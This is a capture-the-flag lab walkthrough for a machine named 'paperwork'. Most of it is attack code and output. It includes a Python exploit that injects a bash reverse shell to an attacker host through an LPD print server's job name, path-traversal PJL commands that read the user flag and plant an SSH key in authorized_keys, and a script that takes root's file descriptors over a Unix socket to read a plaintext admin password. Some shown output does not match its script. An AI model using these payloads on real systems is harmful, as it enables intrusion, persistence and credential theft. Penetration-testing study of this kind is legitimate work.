

--------------------------------------------------------------------------------paperwork---------------------------------------------------------------------------------------------------

Step1:- Reconnaissance

nmap -A -sS -P -T4  --min-rate 5000 10.129.37.38
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-07-13 13:53 UTC
Nmap scan report for 10.129.37.38
Host is up (0.29s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 10.0p2 Ubuntu 5ubuntu5.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.28.0 (Ubuntu)
|_http-title: Did not follow redirect to http://paperwork.htb/
|_http-server-header: nginx/1.28.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=7/13%OT=22%CT=1%CU=31238%PV=Y%DS=2%DC=T%G=Y%TM=6A54
OS:EDE3%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10F%TI=Z%CI=Z%TS=A)SEQ(S
OS:P=106%GCD=1%ISR=10F%TI=Z%CI=Z%II=I%TS=A)SEQ(SP=108%GCD=1%ISR=10E%TI=Z%CI
OS:=Z%TS=9)OPS(O1=M552ST11NW9%O2=M552ST11NW9%O3=M552NNT11NW9%O4=M552ST11NW9
OS:%O5=M552ST11NW9%O6=M552ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%
OS:W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M552NNSNW9%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S
OS:=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%R
OS:D=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=
OS:0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U
OS:1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DF
OS:I=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 3389/tcp)
HOP RTT       ADDRESS
1   396.15 ms 10.10.14.1
2   398.39 ms 10.129.37.38

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 35.18 seconds

[#] Easy Difficulty, Linux machine!

[#] The web page had nothing, it looks  just a static, but when clicking on the "paperwork-archive-v1.02" it downloads a zip file 

[#] After extracting the content from the zip, it turns out to be server file --> server.py

import socket
import threading
import subprocess
import os

VALID_QUEUE = os.environ.get("LPD_QUEUE")

class LpdHandler(threading.Thread):

    def __init__(self, sock, addr):
        super().__init__()
        self.sock = sock
        self.addr = addr
        self.id = f"[lpd-{addr[1]}]"

    def run(self):
        try:
            data = self.sock.recv(1024)
            if not data: return
            
            command = data[0]
            
            if command == 2:
                self.handle_print_job(data)
            elif command in (3, 4):
                self.sock.send(b"Archive_Printer is ready and printing.\n")
                
        except Exception as e:
            print(f"{self.id} Error: {e}")
        finally:
            self.sock.close()

    def handle_print_job(self, data):
        queue = data[1:].decode().strip()
        
        if queue not in VALID_QUEUE:
            print(f"{self.id} Rejected: Invalid queue '{queue}'")
            self.sock.send(b'\x01') 
            return
        print(f"{self.id} Accepted job for queue: {queue}")
        while True:
            chunk = self.sock.recv(1024)
            if not chunk: break
            
            subcommand = chunk[0]
            self.sock.send(b'\x00') 
            parts = chunk[1:].decode(errors='ignore').split()
            if not parts: continue
            
            size = int(parts[0])
            content = b""
            while len(content) < size:
                content += self.sock.recv(size - len(content) + 1)
            
            decoded_content = content.decode(errors='ignore')
            
            job_name = "Unknown"
            for line in decoded_content.split('\n'):
                line = line.strip()
                if line.startswith('J'):
                    job_name = line[1:]
                    break
            
            print(f"{self.id} Executing archive for: {job_name}")
            subprocess.Popen(f"echo 'Archive: {job_name}' >> /tmp/archive.log", shell=True)
            
            self.sock.send(b'\x00') 
            self.sock.send(b'\x00')
            while self.sock.recv(4096):
                pass
            break

class LpdServer:

    def __init__(self, ip='10.10.14.252', port=1515):
        self.server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        self.server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
        self.server.bind((ip, port))
        self.server.listen(100)
        print(f"[*] LPD Server listening on {port}")

    def run(self):
        while True:
            sock, addr = self.server.accept()
            LpdHandler(sock, addr).start()

if __name__ == "__main__":
    LpdServer(port=1515).run()

[#] While looking at the script, it is something like a print server, which is listening on port 1515, unfortunately nmap didn't showed this port!

[#] Anyways! the script acts as a raw data stream acceptor(similar to a standard AppSocket/HP JetDirect network card). it captures raw data from client and pipes them to its designated print spooler.

[!] After extracting the job_name string from the packet, the script attempts to write a log entry to the host operating system using Python's subprocess module. By enabling shell=True, the script passes the unformatted string directly to the host's system shell (/bin/sh). Because there is zero input sanitization on the job_name variable, a user can pass shell metacharacters (like single quotes and semicolons) to escape the primitive echo context and force the underlying operating system to execute arbitrary bash commands.

[#] Also the print protocol turns out to be the legacy RFC 1179 (Line Printer Daemon Protocol)

[#] Now as we know this, print spooler script is listening on port 1515, on the target, and we also know that we can pass shell metachars in the job name (job name string must start with 'j' to pass out the function conditions)

[#] For achieving RCE and connecting the server, there are 3 pieces to understand!

	1.The Queue Bypass: Sending a raw \x02 (Command code 2: Receive job) immediately followed by a blank line (\n). Since a blank string is technically a substring of whatever name was 	stored in the server's LPD_QUEUE environment variable, the if queue not in VALID_QUEUE verification check failed to catch it. The server sent back a b'\x00' success byte.

	2.The Sub-command Protocol Handshake: Signaling the server that we were transmitting a control file. We sent \x02 followed by the size of our file and a dummy file name (\x02150 	cfA001localhost\n). The server will send back another b'\x00' acknowledgment byte, opening the input loop.

	3.The Semicolon Breakout (The Payload): Passing our command inside the LPD control file data. The server script searched for a line starting with a capital J to find the job name. 	

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Step-2: Initial Foothold 

[#] We can create a python script, that will execute the reverse shell payload in the print spooler by passing the command in the job_name variable

#!/usr/bin/env python3
import socket
import time

TARGET = "10.129.38.145" 
PORT = 1515

command = "bash -c 'bash -i >& /dev/tcp/10.10.14.****/4463 0>&1'"
job_name = f"'; {command}; #"

control_file = ("Hlocalhost\n" "Ptester\n" f"J{job_name}\n").encode() 

with socket.create_connection((TARGET, PORT), timeout=5) as sock:
    sock.sendall(b"\x02\n") // code 2: receive job
    time.sleep(0.3)

    header = b"\x02" + str(len(control_file)).encode() + b" cfA001localhost\n"
    sock.sendall(header)

    ack = sock.recv(1)
    print(f"Header ACK: {ack!r}")

    sock.sendall(control_file + b"\x00")
    try:
        print(f"Final response: {sock.recv(2)!r}")
    except socket.timeout:
        pass

[#] On Your Shell! 

nc -lvnp 4463
listening on [any] 4463 ...
connect to [10.10.14.252] from (UNKNOWN) [10.129.38.145] 35470
bash: cannot set terminal process group (985): Inappropriate ioctl for device
bash: no job control in this shell
lp@paperwork:/opt/LPDServer$ 

[#] we got a shell as lp@paperwork, and it is a low privileged shell container!

[#] In The home directory, there is a user archivist, but we don't have permissions to read his directory!

[#] so i went for enumerating internal ports

lp@paperwork:/$ ss -tlpn
ss -tlpn
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess                          
LISTEN 0      4096         0.0.0.0:22        0.0.0.0:*                                    
LISTEN 0      511          0.0.0.0:80        0.0.0.0:*                                    
LISTEN 0      128        127.0.0.1:1337      0.0.0.0:*                                    
LISTEN 0      100        127.0.0.1:9100      0.0.0.0:*                                    
LISTEN 0      100          0.0.0.0:1515      0.0.0.0:*    users:(("python3",pid=985,fd=3))
LISTEN 0      4096   127.0.0.53%lo:53        0.0.0.0:*                                    
LISTEN 0      4096      127.0.0.54:53        0.0.0.0:*                                    
LISTEN 0      4096            [::]:22           [::]:*  

Port 53: Standard local DNS resolution (systemd-resolved).
Port 1337: A internal web interface running an Intake Portal, Basically the one we saw in the beginning.
Port 9100: A raw printing port traditionally used by HP JetDirect services.

[#] The port 9100 is a raw printing port used by HP jetDirect services, it is better check it out 

lp@paperwork:/$ ps auxf | grep 9100
ps auxf | grep 9100
archivi+     984  0.0  0.4  28040 17512 ?        Ss   14:06   0:00 /usr/bin/python3 /home/archivist/printer/jetdirect.py 9100 /home/archivist/printer/ /home/archivist/printer/logs/commands.log
lp          1892  0.0  0.0   6864  2448 ?        S    15:17   0:00              \_ grep 9100

[#] Okay, so it runs a python script named as "jetdirect.py" from user archivist.  and also logs them into a file named "commands.log"

[#] As the name suggests the jetdirect HP service also features a built-in FTP server, which let us execute some commands like 

	(*) flupload: Uploads a file (like a firmware update) to the printer.
	(*) fldownload: Downloads a file from the printer.
	(*) bin: Switches to binary transfer mode for images and firmware.
	(*) ascii: Switches to text transfer mode for standard text files.
	(*) rhelp: Displays a list of FTP commands the print server supports.
	

[#] Since we can use the fldownload, we can  use this power to place our own SSH key into archivist profile so we could log in cleanly.

[#] User archivist also contains the user flag, you can directly claim the userflag with flupload command, and then printing the result of received uploaded file 

python3 -c 'import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("127.0.0.1",9100)); s.send(b"@PJL FSUPLOAD NAME=\"../../../../home/archivist/user.txt\"\r\n"); print(s.recv(4096).decode(errors="ignore")); s.close()'

lp@paperwork:/$ python3 -c 'import socket; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("127.0.0.1",9100)); s.send(b"@PJL FSUPLOAD NAME=\"../../../../home/archivist/user.txt\"\r\n"); print(s.recv(4096).decode(errors="ignore")); s.close()'
<t(s.recv(4096).decode(errors="ignore")); s.close()'
@PJL FSUPLOAD NAME="../../../../home/archivist/user.txt" SIZE=33
323807bac943edf79f5f938c*********

[#] But to pivot, we need to replace the ssh keys!

[#] To do so, start by generating temporary ssh keys on your machine 

 ssh-keygen -f ./id_rsa_tmp -N ""

[#] now copy the public key string from the ssh key file 

[#] Once done, we will create a short python snippet that will download those keys via fldownload command and then we can easily access the user archivist

python3 -c '
import socket
pub_key = "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQ... attacker@kali\n" #replace with your key string
payload = f"@PJL FSDOWNLOAD NAME=\"../../../../home/archivist/.ssh/authorized_keys\" SIZE={len(pub_key)}\n".encode() + pub_key.encode()
s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("127.0.0.1",9100))
s.sendall(payload)
print(s.recv(1024).decode())
s.close()'

[#] You should get something like this, as result

       
<SIZE={len(pub_key)}\n".encode() + pub_key.encode() 
> s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)                     
> s.connect(("127.0.0.1",9100))
> s.sendall(payload)
> print(s.recv(1024).decode())
> s.close()'
OK

[#] Now the public ssh key is replaced, we can initiate a ssh using our private key 

archivist@paperwork:~$ id
uid=1000(archivist) gid=1000(archivist) groups=1000(archivist)

[#] We have successfully pivoted to user archivist!

--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Step:-3 Privilege Escalation 

[#] Lets start by looking sudo permissions!

archivist@paperwork:~$ sudo -l
Command 'sudo' not found, but can be installed with:
apt install sudo     # version 1.9.17p2-1ubuntu1.1, or
apt install sudo-rs  # version 0.2.8-1ubuntu5.3
Ask your administrator to install one of them.

[#] The standard sudo utility was entirely missing from this system

[#] While there was nothing interesting on the shell to find, also the home directory, wasn't providing any clues!

[#] But i have found something interesting in the /etc folder though

archivist@paperwork:/etc$ cd paperwork

archivist@paperwork:/etc/paperwork$ ls
admin_pins.conf

archivist@paperwork:/etc/paperwork$ cat *
cat: admin_pins.conf: Permission denied (os error 13)

[#] There is this configuration file, but unfortunately the access is not permitted!

[#] Then after some clues and intel from IRC, i have shifted my focus to Unix Domain Sockets

# ss -xlpn

Netid State  Recv-Q Send-Q                                   Local Address:Port  Peer Address:PortProcess
u_str LISTEN 0      4096           /run/systemd/journal/io.systemd.journal 4095             * 0          
u_dgr UNCONN 0      0                        /run/user/1000/systemd/notify 23283            * 0          
u_str LISTEN 0      4096                    /run/user/1000/systemd/private 23290            * 0          
u_str LISTEN 0      4096                                /run/user/1000/bus 23300            * 0          
u_str LISTEN 0      4096                    /run/user/1000/gnupg/S.dirmngr 23303            * 0          
u_str LISTEN 0      4096          /run/user/1000/gnupg/S.gpg-agent.browser 23304            * 0          
u_str LISTEN 0      4096            /run/user/1000/gnupg/S.gpg-agent.extra 23305            * 0          
u_str LISTEN 0      4096              /run/user/1000/gnupg/S.gpg-agent.ssh 23306            * 0          
u_str LISTEN 0      4096                  /run/user/1000/gnupg/S.gpg-agent 23311            * 0          
u_str LISTEN 0      4096                    /run/user/1000/gnupg/S.keyboxd 23316            * 0          
u_str LISTEN 0      4096                      /run/user/1000/openssh_agent 23317            * 0          
u_str LISTEN 0      4096        /run/systemd/userdb/io.systemd.DynamicUser 2597             * 0          
u_str LISTEN 0      4096                /run/systemd/io.systemd.ManagedOOM 2598             * 0          
u_str LISTEN 0      4096                       /run/systemd/journal/stdout 2608             * 0          
u_str LISTEN 0      4096                       /run/dbus/system_bus_socket 10942            * 0          
u_str LISTEN 0      4096                        /run/ssh-unix-local/socket 10953            * 0          
u_str LISTEN 0      4096                  /run/systemd/io.systemd.Hostname 10955            * 0          
u_str LISTEN 0      4096                                /run/uuidd/request 10956            * 0          
u_str LISTEN 0      4096           /run/systemd/resolve/io.systemd.Resolve 5420             * 0          
u_str LISTEN 0      4096   /run/systemd/resolve/io.systemd.Resolve.Monitor 5421             * 0          
u_dgr UNCONN 0      0                                                    * 11417            * 0          
u_str LISTEN 0      32                    /var/run/vmware/guestServicePipe 11260            * 0          
u_str LISTEN 0      5                             /run/paperwork/mgmt.sock 13740            * 0          
u_str LISTEN 0      4096                    /run/systemd/io.systemd.sysext 5692             * 0          
u_str LISTEN 0      4096                              /run/systemd/private 4016             * 0          
u_str LISTEN 0      4096                          /run/lvm/lvmpolld.socket 4665             * 0          
u_str LISTEN 0      4096               /run/systemd/io.systemd.Credentials 4666             * 0          
u_seq LISTEN 0      4096                                 /run/udev/control 4667             * 0          

[#] Among all these socket files, there is an interesting socket being broadcast u_str   LISTEN   0   5   /run/paperwork/mgmt.sock 12655   * 0

[#] This socket file belonged explicitly to the machine's theme infrastructure (paperwork), had a custom low-backlog queue size of 5, and was being managed by an administrative background process running with full root permissions.

[$] The File Descriptor Passing (SCM_RIGHTS) Flaw :- Through local architecture analysis, we discovered that the root-level process behind /run/paperwork/mgmt.sock was configured to pass active, open system file references down the socket stream to synchronize backend application parameters.

[!] In Linux, this is known as Ancillary Data File Descriptor Passing using the SCM_RIGHTS protocol flag.

[^] The Vulnerability: When a privileged process passes an open file descriptor down a socket, any local user who can connect to that socket can intercept the message block. Because the file handle was already opened and authenticated by root at initialization, the Linux kernel completely bypasses standard user filesystem checks when reading it, allowing a lower-privileged user to hijack the file reference stream natively.

[#] So here's the attack plan!

	(+) We create an IPC stream and connect to this socket
	(+) then we allocate an ancillary data buffer to catch internal SCM_RIGHTS file descriptors
	(+) Then will Iterate through intercepted control blocks and decode hijacked file integer values
	(+) And lastly extract the data stream directly out of the root-authenticated handle

[#] We create a python snippet for this

python3 - <<'PY'
import array, os, socket

# 1. Establish an IPC stream connection to the hidden management socket
s = socket.socket(socket.AF_UNIX)
s.connect("/run/paperwork/mgmt.sock")

# 2. Allocate an ancillary data buffer to catch internal SCM_RIGHTS file descriptors
_, anc, _, _ = s.recvmsg(1024, socket.CMSG_SPACE(8))

# 3. Iterate through intercepted control blocks and decode hijacked file integer values
for _, _, data in anc:
    fds = array.array("i")
    fds.frombytes(data)
    for fd in fds:
        # 4. Use pread to extract the data stream directly out of the root-authenticated handle
        print(os.pread(fd, 1024, 0).decode())
PY

[#] After running this script..............

Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
Listening on port 9100
[127.0.0.1] connected
Command: @PJL FSUPLOAD NAME="../../../../home/archivist/user.txt"
[127.0.0.1] connected
Command: @PJL FSDOWNLOAD NAME="../../../../home/archivist/.ssh/authorized_keys" SIZE=93
Receiving file: ../../../../home/archivist/.ssh/authorized_keys (93 bytes)

"ADMIN_PASSWORD=ApparelMortuaryCedar22"

[#] We get the password for admin. Lets try using this password to get root!

archivist@paperwork:/etc/paperwork$ su root
Password:  #ApparelMortuaryCedar22

root@paperwork:/etc/paperwork# id
uid=0(root) gid=0(root) groups=0(root)

[#] Rooted!
